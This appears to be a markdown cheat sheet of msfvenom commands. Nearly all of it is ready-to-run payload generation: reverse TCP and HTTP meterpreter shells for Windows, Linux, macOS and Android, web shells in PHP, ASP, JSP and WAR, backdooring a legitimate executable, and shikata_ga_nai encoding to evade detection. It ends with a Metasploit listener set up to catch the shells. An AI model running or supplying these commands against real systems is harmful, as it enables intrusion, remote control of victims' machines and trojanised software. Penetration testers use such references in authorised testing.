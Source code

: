 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creating Binaries
The following create different binaries for meterpreter and reverse TCP shells:

### Creates a Reverse TCP Meterpreter Shell - Payload for Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f exe > payload.exe
```

### Creates a simple HTTP Payload for Windows
```
msfvenom -p windows/meterpreter/reverse_http LHOST={HOST/IP} LPORT={PORT} -f exe > payload.exe
```

### Creates a simple TCP Shell for Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f elf > payload.elf
```

### Creates a simple TCP Shell for Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f macho > example.macho
```

### Creates a simple TCP Payload for Android

```
msfvenom -p android/meterpreter/reverse/tcp LHOST={HOST/IP} LPORT={PORT} R > example.apk
```

## Web Payloads

### Creates a Simple TCP Shell for PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f raw > example.php
```

### Creates a Simple TCP Shell for ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f asp > example.asp
```

### Creates a Simple TCP Shell for Javascrip
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f raw > example.jsp
```

### Creates a Simple TCP Shell for WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f war > example.war
```

## Windows Payloads

### Lists all avalaible encoder
```
msfvenom -l encoders
```

### Binds an exe with a Payload (Backdoors an exe)
```
msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f exe > example.exe
```

### Creates a simple TCP payload with shikata_ga_nai encoder
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe
```

### Binds an exe with a Payload and encodes it
```
msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe
```

## Getting a Metepreter Shell
```
omar@ares:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
